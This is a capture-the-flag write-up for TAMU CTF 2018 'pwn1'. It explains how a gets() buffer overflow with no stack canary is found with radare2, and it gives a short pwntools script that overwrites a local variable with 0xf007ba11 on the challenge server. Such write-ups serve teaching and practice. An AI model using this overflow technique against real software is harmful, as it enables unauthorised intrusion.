 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN1
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn1 asks the user to enter a passphrase.

```
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?

WHAT_DO_I_KNOW?

That is not the secret word!
```
So, I assume there will be some check somewhere.

I checked the results of [strings](https://man.cx/strings(1)) command to see if there is a password hardcoded into the program.

**Nope**, but nice try.

It's time for giving [radare2](https://rada.re/r/) a chance. Let's analyse...

The input is useless because is stored in `eax`... but the check with the password (which is `\xf0\x07\xba\x11`) is performed with a local variable set to 0.

So, how can I pwn it?

**Easy peasy!** there is a gets without length check: this means that I can write portions of the stack and do whatever I want with this program.

**Even better**, there is no canary!

I can write the password in the correct memory cell.
The exploit is some glibberish and than the address of the `print_flag` function.

BE CAREFUL: I assumed [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) was disabled on server.
So I opened a shell with ASLR disabled, got the address of `print_flag` and appended to the exploit string.
My assumption was correct! There is no ASLR on server side.

I used pwntools for crafting and simplicity. This is the script:

```
from pwn import *
exc = remote('pwn.ctf.tamu.edu',4321)
exc.sendline('A'*23 + p32(0xf007ba11))
exc.interactive()
```

23 is the lenght of the input string buffer in stack (found with radare2).

Flag captured ;-)
